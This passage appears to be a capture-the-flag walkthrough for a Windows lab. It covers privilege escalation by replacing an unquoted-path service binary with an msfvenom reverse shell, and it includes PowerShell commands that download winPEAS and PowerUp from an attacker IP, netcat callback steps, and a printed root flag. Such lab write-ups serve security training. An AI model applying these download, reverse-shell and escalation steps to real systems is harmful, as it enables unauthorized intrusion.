 *Use msfvenom to generate a reverse shell as an Windows executable.*

*Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.*

### 4 - What is the root flag?

powershell -c (new-object System.Net.WebClient).DownloadFile(‘http://10.8.82.167/winPEASx64.exe','C:\Users\bill\Desktop\winpeas.exe')

powershell Invoke-WebRequest -Uri "http://10.8.82.167/powerup.ps1" -Outfile c:\test\powerup.ps1

C:\Users\Administrator\Desktop>type root.txt
type root.txt
9af5f314f57607c00fd09803a587db80

## [Task 4] Access and Escalation Without Metasploit

Now let's complete the room without the use of Metasploit.

For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to

### 1	

To begin we shall be using the same CVE. However, this time let's use this exploit.

*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*


To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from GitHub!

You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!

### 2

Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.

Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running.

What powershell -c command could we run to manually find out the service name?

*Format is "powershell -c "command here"*

    powershell -c Get-Service

We see 

### 3 	

Now let's escalate to Administrator with our new found knowledge. Generate your payload using msfvenom and pull it to the system using powershell. Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands. First we need to stop the service which we can do like so;
